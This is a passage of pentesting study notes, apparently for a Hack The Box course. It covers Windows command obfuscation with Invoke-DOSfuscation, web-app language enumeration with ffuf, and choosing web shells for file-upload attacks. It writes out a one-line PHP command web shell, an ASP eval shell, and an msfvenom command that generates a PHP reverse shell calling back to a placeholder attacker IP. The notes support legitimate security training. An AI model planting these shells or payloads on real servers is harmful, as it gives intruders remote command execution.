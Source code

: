 >[!code]- DOSfunscation (Windows)
>###### Setup
>```powershell
>git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
>cd Invoke-DOSfuscation
>Import-Module .\Invoke-DOSfuscation.psd1
>Invoke-DOSfuscation
>```
>###### Use
>```powershell
>Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
>Invoke-DOSfuscation> encoding
>Invoke-DOSfuscation\Encoding> 1
>```
### File Uploads (~1.5 hours)

>[!code]- Find the web app's language
>1. Enumerate `/index.ext` - where `.ext` is replaced with `php`, `aspx`, `asp` etc.
>```powershell
># There may be false negatives
>ffuf -u http://target.com/index.FUZZ -W /usr/share/wordlists/seclists/Discovery/Web-Content/web-extensions.txt
>```
>2. Use Wappalyzer (browser extension)

>[!code]- Choose a suitable web shell
>###### Use a pre-existing one
>1. [phpbash](https://github.com/Arrexel/phpbash) for a bash-like web shell
>2. [Seclists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) for various web shells
>3. [Revshells](https://www.revshells.com/) for various web shells, including shells by Ivan Sincek or PentestMonkey
>
>###### Create a custom one
>```php
>
>
><?php system($_REQUEST['cmd']); ?>
>```
>
>```powershell
># .NET
># executes a command passed to the ?cmd= parameter
><% eval request('cmd') %>
>```
>
>```bash
># powershell
># -p to set payload language
># -f to set output file language
>msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
>```
###### Bypass front-end validation
